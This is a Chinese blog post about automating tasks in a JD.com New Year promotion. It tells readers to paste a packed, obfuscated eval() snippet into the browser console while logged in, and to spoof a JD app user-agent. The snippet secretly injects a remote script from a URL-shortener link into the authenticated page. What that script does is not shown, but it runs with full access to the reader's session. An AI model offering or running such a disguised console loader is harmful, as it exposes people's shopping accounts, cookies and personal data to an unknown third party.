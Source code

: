 ```yaml
---
layout: post
date: 2020/01/03
title: 活动线报001——京东炸年兽脚本
author: 
  name: YINUXY
  avatar: https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/avatar/avatar.png
  url: httpS://blog.yinuxy.com
categories: 活动线报



thumbnail: https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@2.26/thumbnail/Activity.png
mathjax: true


---
```


> <center><font  size = "5" color = "#1BC3FB"  face = "楷体">活动线报001——京东炸年兽脚本</font></center>

<!-- more -->

1. 使用电脑端登录一下[http://m.jd.com](http://m.jd.com)登录自己账号
2. 登陆成功后再打开如下链接：
[https://bunearth.m.jd.com/babelDiy/SGFJVMOZADGTQCZWGEYU/4PWgqmrFHunn8C38mJA712fufguU/index.html#/wxhome](https://bunearth.m.jd.com/babelDiy/SGFJVMOZADGTQCZWGEYU/4PWgqmrFHunn8C38mJA712fufguU/index.html#/wxhome)
3. 进入活动界面有按下F12进入开发者模式 点击Console下粘贴下面红色的脚本 按回车键
```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('6 0=1.5(\'0\');0.7="2/3";0.4="b://c.d/8";1.9.a(0);',14,14,'script|document|text|javascript|src|createElement|var|type|ATmFCV|body|appendChild|https|6url|cn'.split('|'),0,{}))
```
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/img/Activities/0001/output_1.png)
4. 接下来点击右上角三个点 选择`More tools`->`Network conditions`
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/img/Activities/0001/output_2.png)
运行会出现一个ʚ福利鸭ɞ 如下图
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/img/Activities/0001/output_3.png)
5. 复制下面红色的`user-Agent`粘贴到箭头1位置;再重复一次步骤3。
```
jdapp;android;8.4.2;8.0.0;;network/wifi;model/Mi Note 2;osVer/26;appBuild/71043;psn/|7;psq/1;uid/;adk/;ads/;pap/JA2015_311210|8.4.2|ANDROID 8.0.0;osv/8.0.0;pv/2.23;jdv/;ref/com.jingdong.app.mall.WebActivity;partner/huawei;apprpd/Home_Main;Mozilla/5.0 (Linux; Android 8.0.0; Mi Note 2 Build/OPR1.170623.032; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/71.0.3578.99 Mobile Safari/537.36
```
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/img/Activities/0001/output_4.png)
6. 点击左侧的所有按钮完成任务。
![](https://cdn.jsdelivr.net/gh/InfiniteYinux/cloud@master/img/Activities/0001/output_5.png)
